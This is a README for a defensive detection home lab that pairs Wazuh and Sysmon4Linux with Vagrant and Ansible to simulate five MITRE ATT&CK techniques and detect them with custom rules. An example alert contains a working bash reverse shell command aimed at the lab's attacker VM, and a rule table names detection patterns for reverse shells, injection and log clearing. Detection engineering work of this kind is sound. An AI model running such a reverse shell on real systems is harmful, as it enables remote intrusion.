

# 🛡️ Detection Home Lab

<div align="center">


**An Infrastructure-as-Code Detection Lab for simulating and detecting MITRE ATT&CK techniques using Wazuh SIEM + Sysmon4Linux.**

[Quick Start](#-quick-start) · [Architecture](#️-architecture) · [Attack Simulations](#-attack-simulations) · [Detection Rules](#-detection-rules) · [Telemetry Visibility](#-telemetry-visibility)

</div>

---

## 🎯 Why This Project?

Modern security teams require analysts who understand the **full kill chain** — from attacker TTPs to the log events that expose them. This lab bridges that gap by providing:

- **Reproducible infrastructure** — spin up a full detection stack in one command
- **Real telemetry** — kernel-level events via Sysmon4Linux, not simulated logs
- **MITRE ATT&CK coverage** — 5 techniques from Persistence, Execution, Defense Evasion, and Privilege Escalation
- **SIEM-grade detection** — custom Wazuh rules with ATT&CK tagging and Active Response
- **Documented visibility** — L0 (raw) → L1 (normalized) → L2 (enriched) telemetry analysis

> **Who benefits?** Blue teamers building detection skills, SOC analysts studying ATT&CK, security engineers demonstrating IaC and SIEM capabilities.

---

## 🏗️ Architecture



### VM Specifications

| VM | IP | RAM | vCPU | Role |
|---|---|---|---|---|
| `wazuh-server` | 192.168.56.10 | 8 GB | 4 | Wazuh 4.14 all-in-one SIEM |
| `agent-node` | 192.168.56.20 | 2 GB | 2 | Monitored endpoint (Sysmon + Agent) |
| `attacker` | 192.168.56.30 | 1 GB | 1 | Attack simulation platform |

---

## 📋 Prerequisites

| Tool | Version | Install |
|---|---|---|
| VirtualBox | 7.x | [virtualbox.org](https://www.virtualbox.org/wiki/Downloads) |
| Vagrant | 2.4+ | [vagrantup.com](https://vagrantup.com/downloads) |
| Git | any | [git-scm.com](https://git-scm.com) |

**Host requirements:** 16 GB+ RAM, 80 GB free disk (SSD recommended), Windows 10/11 or Linux/macOS.

---

## ⚡ Quick Start

```bash
# 1. Clone the repository
git clone https://github.com/gusfenner/detection-homelab.git
cd detection-homelab

# 2. (Optional) Set custom passwords in the vault
cp ansible/group_vars/vault.yml.example ansible/group_vars/vault.yml
nano ansible/group_vars/vault.yml   # change default passwords

# 3. Start the lab (first run: ~20–30 min)
bash scripts/setup.sh
# — OR —
vagrant up

# 4. Access the Wazuh Dashboard
# URL:      https://192.168.56.10
# Username: admin
# Password: vagrant ssh wazuh-server -- cat /tmp/wazuh-passwords.txt

# 5. Run attack simulations
vagrant ssh agent-node
sudo bash /vagrant/attack/simulate_attack.sh

# 6. View alerts in Wazuh Dashboard
# Security Events → filter: agent.name: agent-node
```

---

## 💥 Attack Simulations

Each technique script is self-contained, documented, and **cleans up after itself**.

```bash
# Run all techniques
sudo bash /vagrant/attack/simulate_attack.sh

# Run a single technique
sudo bash /vagrant/attack/simulate_attack.sh --technique T1053
```

### Simulated Techniques

| ID | Name | Tactic | Script | Wazuh Rules |
|---|---|---|---|---|
| **T1053.003** | Scheduled Task: Cron | Persistence | `T1053_scheduled_task.sh` | 100001, 100002 |
| **T1059.004** | Unix Shell | Execution | `T1059_command_script.sh` | 100010, 100011 |
| **T1055** | Process Injection | Defense Evasion | `T1055_process_inject.sh` | 100020, 100021 |
| **T1136.001** | Create Local Account | Persistence | `T1136_create_account.sh` | 100030, 100031 |
| **T1070.003** | Clear Linux Logs | Defense Evasion | `T1070_log_clear.sh` | 100040, 100041 |

### MITRE ATT&CK Navigator Coverage

```
Tactic            Technique           Sub-technique      Simulated?
─────────────────────────────────────────────────────────────────
Execution         T1059               T1059.004          ✅
Persistence       T1053               T1053.003          ✅
Persistence       T1136               T1136.001          ✅
Defense Evasion   T1055               —                  ✅
Defense Evasion   T1070               T1070.003          ✅
```

---

## 🔍 Detection Rules

Custom rules live in `ansible/roles/wazuh_server/files/local_rules.xml` (Rule IDs 100001–100041).

| Rule | Level | Description |
|---|---|---|
| 100001 | 10 | Crontab invoked — possible scheduled task |
| 100002 | 12 | File written to `/etc/cron.d` or `/var/spool/cron` |
| 100010 | **15** | Reverse shell pattern in CommandLine |
| 100011 | 10 | Base64-decoded payload via bash |
| 100020 | **15** | CreateRemoteThread (process injection) |
| 100021 | 12 | `ptrace` or `/proc/PID/mem` write attempt |
| 100030 | 10 | `useradd` executed — local account creation |
| 100031 | **15** | Account added to sudo/wheel group |
| 100040 | 12 | `history -c` or HISTFILE manipulation |
| 100041 | 12 | System log file truncated or cleared |

> See [`docs/detection_rules.md`](docs/detection_rules.md) for rule XML, tuning advice, and Active Response configuration.

---

## 📡 Telemetry Visibility

This lab documents three visibility layers aligned with SOC analyst tiers:

| Level | Name | Who uses it | What it contains |
|---|---|---|---|
| **L0** | Raw | Tier-3, Threat Intel | Unmodified Sysmon XML/JSON from syslog |
| **L1** | Normalized | Tier-1, Tier-2 | Wazuh-decoded structured fields |
| **L2** | Enriched | Tier-1 SOC | MITRE-tagged alerts with severity and tactic |

**Example — T1059.004 (Reverse Shell) L2 alert:**
```json
{
  "rule.id": "100010",
  "rule.level": 15,
  "rule.description": "ATT&CK T1059.004 - Reverse shell pattern detected",
  "rule.mitre.technique": ["T1059.004"],
  "rule.mitre.tactic": ["Execution", "Defense Evasion"],
  "data.sysmon.commandline": "bash -i >& /dev/tcp/192.168.56.30/4444 0>&1",
  "agent.name": "agent-node"
}
```

> Full L0 → L1 → L2 examples for all 5 techniques: [`docs/telemetry_levels.md`](docs/telemetry_levels.md)

---

## 📁 Project Structure

```
detection-homelab/
├── Vagrantfile                    # 3-VM lab definition (VirtualBox)
├── ansible.cfg                    # Ansible configuration
├── ansible/
│   ├── site.yml                   # Master playbook
│   ├── inventory/hosts.ini        # VM inventory
│   ├── group_vars/
│   │   ├── all.yml                # Shared variables
│   │   └── vault.yml.example      # Secrets template (encrypt with ansible-vault)
│   └── roles/
│       ├── common/                # OS baseline (all VMs)
│       ├── wazuh_server/          # Wazuh 4.14 all-in-one + custom rules
│       ├── wazuh_agent/           # Sysmon4Linux + Agent enrollment
│       └── attacker/              # Offensive tools
├── attack/
│   ├── simulate_attack.sh         # Orchestrator
│   └── techniques/                # Individual MITRE technique scripts
├── docs/
│   ├── architecture.md            # Mermaid diagram + data flow
│   ├── telemetry_levels.md        # L0 / L1 / L2 per technique
│   ├── detection_rules.md         # Rule explanations + tuning guide
│   └── COMMIT_HISTORY.md          # Suggested git commit sequence
└── scripts/
    ├── setup.sh                   # One-shot lab startup
    └── cleanup.sh                 # Destroy all VMs
```

---

## 🔧 Useful Commands

```bash
# VM management
vagrant up                          # Start all VMs
vagrant halt                        # Stop all VMs (preserve disk)
vagrant destroy -f                  # Destroy all VMs
vagrant ssh wazuh-server            # SSH into Wazuh server
vagrant ssh agent-node              # SSH into agent node

# Run specific attack technique
vagrant ssh agent-node -- sudo bash /vagrant/attack/simulate_attack.sh --technique T1136

# Check Wazuh services on server
vagrant ssh wazuh-server -- sudo systemctl status wazuh-manager wazuh-indexer wazuh-dashboard

# Check agent enrollment
vagrant ssh wazuh-server -- sudo /var/ossec/bin/agent_control -l

# Validate Wazuh rules syntax
vagrant ssh wazuh-server -- sudo /var/ossec/bin/wazuh-logtest

# Tail Wazuh alerts in real time
vagrant ssh wazuh-server -- sudo tail -f /var/ossec/logs/alerts/alerts.json | jq .
```

---

## 🛠️ Troubleshooting

### Dashboard not reachable after `vagrant up`
Wazuh Indexer (OpenSearch) takes 3–5 minutes to fully initialize. Wait and retry.

```bash
vagrant ssh wazuh-server -- sudo systemctl status wazuh-indexer
```

### Agent not appearing in Dashboard
Check enrollment and connectivity:
```bash
vagrant ssh agent-node -- sudo systemctl status wazuh-agent
vagrant ssh agent-node -- sudo /var/ossec/bin/agent-auth -m 192.168.56.10
```

### Sysmon not generating events
Verify Sysmon is running and your config is loaded:
```bash
vagrant ssh agent-node -- sudo systemctl status sysmon
vagrant ssh agent-node -- sudo sysmon -c /etc/sysmon-config.xml
```

### VirtualBox host-only network issue on Windows
Run as Administrator:
```powershell
VBoxManage hostonlyif create
VBoxManage hostonlyif ipconfig vboxnet0 --ip 192.168.56.1 --netmask 255.255.255.0
```

---

## 🤝 Contributing

1. Fork the repository
2. Create a feature branch: `git checkout -b feat/new-technique`
3. Follow the commit convention in [`docs/COMMIT_HISTORY.md`](docs/COMMIT_HISTORY.md)
4. Open a Pull Request

---

## ⚠️ Legal Disclaimer

> This project is designed **exclusively for educational purposes in isolated lab environments**.
> The attack simulation scripts replicate attacker behavior patterns for detection engineering purposes only.
> **Never run these scripts on production systems, cloud environments, or any network without explicit written authorization.**
> The author assumes no liability for misuse.

---

## 📄 License

MIT License — see [LICENSE](LICENSE) for details.

---

<details>
<summary>🇧🇷 Resumo em Português</summary>

## Resumo em Português

### O que é este projeto?

Este é um **laboratório de detecção doméstico** (Home Lab) focado em cibersegurança defensiva. Ele demonstra, de forma prática e reproduzível, como uma equipe de segurança pode detectar técnicas de ataque reais usando ferramentas de nível enterprise.

### Por que foi criado?

O projeto foi desenvolvido para demonstrar competências em:
- **Infraestrutura como Código (IaC):** uso de Vagrant + Ansible para provisionar ambientes completos com um único comando
- **Telemetria avançada:** captura de eventos no nível do kernel com Sysmon4Linux (processo, rede, arquivo, injeção de processo)
- **SIEM e correlação:** regras customizadas no Wazuh 4.14 mapeadas ao framework MITRE ATT&CK
- **Engenharia de detecção:** análise em três camadas (L0 bruto → L1 normalizado → L2 enriquecido)

### Como funciona?

1. **Vagrant** sobe 3 VMs no VirtualBox: servidor Wazuh (SIEM), nó agente monitorado e nó atacante
2. **Ansible** provisiona cada VM automaticamente: instala Wazuh 4.14, Sysmon4Linux e ferramentas de ataque
3. **Scripts de simulação** executam 5 técnicas do MITRE ATT&CK no nó monitorado
4. **Sysmon4Linux** captura os eventos em nível de kernel e os envia para o Wazuh via syslog
5. **Wazuh** decodifica os logs, aplica as regras customizadas e exibe os alertas no Dashboard com tags ATT&CK

### Técnicas simuladas

| ID | Técnica | Tática |
|---|---|---|
| T1053.003 | Tarefa agendada via Cron | Persistência |
| T1059.004 | Interpretador de shell Unix | Execução |
| T1055 | Injeção de processo | Evasão de defesas |
| T1136.001 | Criação de conta local | Persistência |
| T1070.003 | Limpeza de logs do sistema | Evasão de defesas |

### Requisitos mínimos

- 16 GB de RAM disponível no host
- VirtualBox 7.x instalado
- Vagrant 2.4+ instalado
- ~80 GB de espaço em disco (SSD recomendado)

</details>
